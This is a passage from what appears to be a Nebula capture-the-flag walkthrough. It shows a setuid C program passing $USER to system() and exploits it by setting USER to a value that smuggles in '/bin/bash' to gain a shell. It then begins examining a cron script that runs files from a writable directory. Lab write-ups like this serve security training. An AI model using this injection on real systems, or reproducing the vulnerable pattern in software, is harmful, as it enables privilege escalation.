 ```C
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

The permission preamble is the same as in the last flag but now we have the possibility to change a buffer that is executed via the `$USER` environment variable. The is also a `printf` that shows us what we are doing.

```
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo level02 is cool")
level02 is cool
level02@nebula:/home/flag02$ USER="test && /bin/bash &&" ./flag02 
about to call system("/bin/echo test && /bin/bash && is cool")
test
flag02@nebula:/home/flag02$ getflag
You have successfully executed getflag on a target account
```

Setting `$USER` to `test && /bin/bash &&` splits the executed command into three separate commands that are executed subsequently: First the is `/bin/echo test`, which just prints `test`, then we open a shell to get the flag, then `is cool` is executed. This is not a valid command but at this point we don't care anymore as we already have the flag.


## Flag 03

```
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.
```

So let's have a look at the directory:

```bash
level03@nebula:/home/flag03$ ls
writable.d  writable.sh
level03@nebula:/home/flag03$ cat writable.sh 
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
done

level03@nebula:/home/flag03$ ls writable.d
level03@nebula:/home/flag03$ 
```
